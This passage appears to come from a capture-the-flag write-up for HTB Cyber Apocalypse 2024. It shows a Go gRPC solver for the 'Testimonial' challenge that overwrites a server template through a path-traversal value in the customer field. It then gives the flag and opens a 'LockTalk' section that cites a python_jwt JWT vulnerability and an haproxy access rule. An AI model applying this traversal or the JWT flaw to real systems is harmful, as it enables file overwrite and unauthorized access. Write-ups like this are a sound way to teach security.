 ``` go
	defer conn.Close()
	c := pb.NewRickyServiceClient(conn)

	// Call SubmitTestimonial method.
	reply, err := c.SubmitTestimonial(context.Background(), &pb.TestimonialSubmission{
		Customer:    "../../view/home/index.templ",
		Testimonial: string(testimonialData),
	})
	if err != nil {
		log.Fatalf("could not submit: %v", err)
	}
	fmt.Println("Server Response:", reply.Message)
}
```

Save the solver file inside the challenge source code folder so that the pb library can be imported.
Run with the command "go run call.go".
Refresh the web page, and the flag will be obtained.

![Testimonial](/assets/img/HTB-Cyber-Apocalypse-2024/images/HTBAPOCALYPSE2024_testimonial1.png)

**Flag**: HTB{w34kly_t35t3d_t3mplate5}

**================================================================================================**

## **LockTalk - Web**

**Solving Scenario:**\
Source code analysis reveals that the requirements.txt file uses the python_jwt library version 3.3.3, which is vulnerable to CVE-2022-39227.

In the haproxy.cfg config file, there is access protection to the /api/v1/get_ticket endpoint:
